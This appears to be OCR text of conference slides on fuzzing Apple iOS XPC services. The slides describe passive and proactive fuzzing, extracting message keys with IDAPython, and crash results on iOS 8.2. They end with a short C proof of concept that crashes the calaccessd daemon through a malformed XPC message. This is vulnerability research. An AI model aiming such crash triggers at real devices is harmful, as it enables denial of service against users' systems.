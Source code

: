 Our work: Focus on Data Dereference

Serialization

Deserialization

Object Dereference

Data Dereference

xpc dict

Mach message

xpc dict

xpc objects

Raw Data

Sender

Receiver

Passive Fuzzing
 Select a target service, hook xpc_connection_set_event_handler() function to get the message handlers
 Hook the message handlers and mutate all received messages

Proactive Fuzzing
 Find all connectable services by decompiling the container sandbox profile
 Grep xpc_connection_create_mach_se rvice to identify all xpc listeners
 XPC_CONNECTION_MACH_ SERVICE_LISTENER

Retrieve Message Keys
 Use IDAPython script to find all xref of xpc_dictionary_get_* and analyze the strings in R1

Fuzzing Results
 Run a fuzzer on iOS 8.2
 Latest version at that moment
 Crash analysis
 Null pointer  Out-of-bounds memory access  "remote" code execution
 Some crashes might be fixed in iOS 8.4.

Null Pointer Dereference (calaccessd)
 Services presume the existence of certain keys in the messages

POC

/System/Library/Frameworks/EventKit.framework/Support/calaccessd

xpc_connection_t client = xpc_connection_create_mach_service("com.apple.calaccessd.xpc", NULL, 0); xpc_connection_set_event_handler(client, ^void(xpc_object_t response) { });

xpc_connection_resume(client);

xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0); xpc_dictionary_set_int64(dict, "message", 1);
//any message with the "function" key can trigger the crash

xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, dict);
